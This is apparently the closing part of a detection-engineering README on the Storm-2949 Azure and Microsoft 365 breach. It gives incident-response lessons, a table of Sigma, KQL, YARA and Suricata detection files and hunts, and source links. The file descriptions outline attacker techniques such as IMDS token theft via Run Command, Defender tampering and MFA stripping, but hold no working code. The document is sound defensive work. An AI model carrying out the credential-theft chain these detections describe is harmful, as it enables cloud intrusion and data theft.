- **Rotating one Storage account key does not invalidate SAS tokens
  signed with the other key.** This is the most common IR mistake on
  Storage compromise — regenerate both keys, document SAS rotation in the
  runbook.
- **Default Key Vault diagnostic retention is 90 days — extend to one year
  before an incident, not after.** Without per-secret read events the
  4-minute burst is invisible and you cannot scope the rotation.

## What's in this folder

| File | Purpose |
|---|---|
| [README.md](./README.md) | This document — full write-up plus 15-section standard |
| [kill_chain.svg](./kill_chain.svg) | Visual kill chain with VICTIM and OPERATOR lanes, ARM operation anchors, and detection-anchors footer |
| [sigma/storm2949_run_command_imds_token_request.yml](./sigma/storm2949_run_command_imds_token_request.yml) | Sigma — PowerShell child of WindowsAzureGuestAgent.exe pulling IMDS token |
| [sigma/storm2949_authenticator_rebind_after_mfa_strip.yml](./sigma/storm2949_authenticator_rebind_after_mfa_strip.yml) | Sigma — Defender for Identity pattern: MFA method removal plus new Authenticator registration on same principal |
| [sigma/storm2949_defender_av_tamper_via_run_command.yml](./sigma/storm2949_defender_av_tamper_via_run_command.yml) | Sigma — Set-MpPreference tamper from a Run Command shell |
| [kql/storm2949_arm_publishxml_keyvault_storage_chain.kql](./kql/storm2949_arm_publishxml_keyvault_storage_chain.kql) | KQL — ARM control-plane burst (publishxml + KV + listkeys + SQL firewall) within 30 min |
| [kql/storm2949_sspr_mfa_strip_rebind_chain.kql](./kql/storm2949_sspr_mfa_strip_rebind_chain.kql) | KQL — SSPR + MFA-strip + Authenticator rebind within 5 min on same user |
| [kql/storm2949_onedrive_bulk_download_then_arm_pivot.kql](./kql/storm2949_onedrive_bulk_download_then_arm_pivot.kql) | KQL — OneDrive/SharePoint bulk download followed by ARM pivot within 60 min |
| [yara/storm2949_screenconnect_masquerade.yar](./yara/storm2949_screenconnect_masquerade.yar) | YARA — ScreenConnect installer / client heuristic combined with masquerade strings |
| [suricata/storm2949_actor_infra.rules](./suricata/storm2949_actor_infra.rules) | Suricata — egress to attacker IPs and IMDS token request anchor |
| [hunts/peak_h1_sspr_mfa_strip_rebind.md](./hunts/peak_h1_sspr_mfa_strip_rebind.md) | PEAK hunt — SSPR + MFA-strip + Authenticator rebind |
| [hunts/peak_h2_arm_credential_burst.md](./hunts/peak_h2_arm_credential_burst.md) | PEAK hunt — ARM credential-burst across publishxml + KV + listkeys |
| [hunts/peak_h3_vmaccess_runcommand_imds.md](./hunts/peak_h3_vmaccess_runcommand_imds.md) | PEAK hunt — VMAccess local admin plus Run Command IMDS token request |
| [iocs.csv](./iocs.csv) | Full IOC list with type, value, context, confidence, source |

## Sources

- [Microsoft Security Blog — How Storm-2949 turned a compromised identity into a cloud-wide breach (2026-05-18)](https://www.microsoft.com/en-us/security/blog/2026/05/18/storm-2949-turned-compromised-identity-into-cloud-wide-breach/)
- [BleepingComputer — Microsoft Self-Service Password Reset abused in Azure data theft attacks](https://www.bleepingcomputer.com/news/security/microsoft-self-service-password-reset-abused-in-azure-data-theft-attacks/)
- [The Cyber Express — Microsoft Exposes Storm-2949 Azure And M365 Breach](https://thecyberexpress.com/microsoft-storm-2949-azure-m365-cloud-breach/)
- [GBHackers — Hackers Exploit Entra ID Accounts to Steal Microsoft 365 and Azure Data](https://gbhackers.com/hackers-exploit-entra-id/)
- [Microsoft Security Blog — Exposing Fox Tempest: A malware-signing service operation (2026-05-19)](https://www.microsoft.com/en-us/security/blog/2026/05/19/exposing-fox-tempest-a-malware-signing-service-operation/)
- [Microsoft On The Issues — Disrupting Fox Tempest (2026-05-19)](https://blogs.microsoft.com/on-the-issues/2026/05/19/disrupting-fox-tempest-a-cybercrime-service/)
- [The Hacker News — CISA Adds Cisco SD-WAN CVE-2026-20182 to KEV (2026-05-14)](https://thehackernews.com/2026/05/cisa-adds-cisco-sd-wan-cve-2026-20182.html)
- [Cyber Security News — Microsoft Patch Tuesday May 2026 (2026-05-13)](https://cybersecuritynews.com/microsoft-patch-tuesday-may-2026/)
- [Microsoft Learn — Azure Identity Management and access control security best practices](https://learn.microsoft.com/azure/security/fundamentals/identity-management-best-practices)
- [Microsoft Learn — VMAccess extension for Windows](https://learn.microsoft.com/azure/virtual-machines/extensions/vmaccess-windows)
- [Microsoft Learn — Azure VM Run Command overview](https://learn.microsoft.com/azure/virtual-machines/run-command-overview)
